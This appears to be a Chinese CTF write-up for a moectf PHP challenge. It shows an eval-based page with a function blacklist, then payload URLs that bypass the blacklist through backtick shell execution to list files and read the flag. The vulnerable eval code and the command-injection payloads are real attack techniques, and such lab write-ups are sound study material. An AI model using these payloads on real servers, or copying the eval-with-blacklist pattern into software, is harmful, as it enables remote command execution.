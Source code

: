 ### Dynamic

这道题是考思维定势的...

```HTML
<?php
highlight_file(__FILE__);
error_reporting(0);
$blacklist = ["system", "ini_set", "exec", "scandir", "shell_exec", "proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$blacklist = array_merge($blacklist, get_defined_functions()['internal']);
foreach($blacklist as $i){
    if(stristr($_GET[cmd], $i)!==false){
        die('hack');
    }
}
eval($_GET[cmd]);
```

打开题目的代码长这样, 能看到`blacklist`里面禁用了好多用来输出和操作文件的函数... 怎么办? 于是我研究了好久`PHP`的漏洞, 包括`stristr()`的漏洞, 最后除了发现`print()`函数还能用之外什么都做不了...

但是咧, 经过大哥的点拨, 我明白了, `PHP`的函数不能用, 但是我们可以用`Linux`的指令呀!!!

于是我们分析代码, 发现首先是没有除了`cmd`之外的变量供我们使用的, 所以我们需要构建一个新的变量. 这新的变量的名字我们暂且叫`str`好了, 反正也没有什么关系.. ( 因为我大哥这么取的名字 )

接下来我们要读取这个`str`里的东西, 然后`print`出来. 最后跟上`id`的内容..

但是怎么调用`Linux`的函数呢.?

这要提到`PHP`里面又一个神奇的东西: 反引号: '`'.

`PHP`会把包含在反引号里面的东西当成`Shell`指令执行.

所以, 我们就可以快乐的构建一句话木马啦!

Like this:

```php
?cmd=$str=$_GET[id];print%20`$str`;&id=ls
```

这样我们就可以调用`ls`指令来查看服务器当前文件夹里都有些什么东东..

然后我们看见了两个文件, 一个是`4f5f6c3be6ab7cc59dabf9ff7f2b248a
` 另一个是`index.php`..

`flag`自然不可能存在`index.php`里啦, 我们用`Linux`里的`cat`指令来查看那个乱码文件里是些什么东西:

```php
?cmd=$str=$_GET[id];print%20`$str`;&id=cat+4f5f6c3be6ab7cc59dabf9ff7f2b248a
```

然后就拿到`flag`啦...

`flag`: `moectf{PLEASE_USE_disable_function!!!!!!}`

## Android
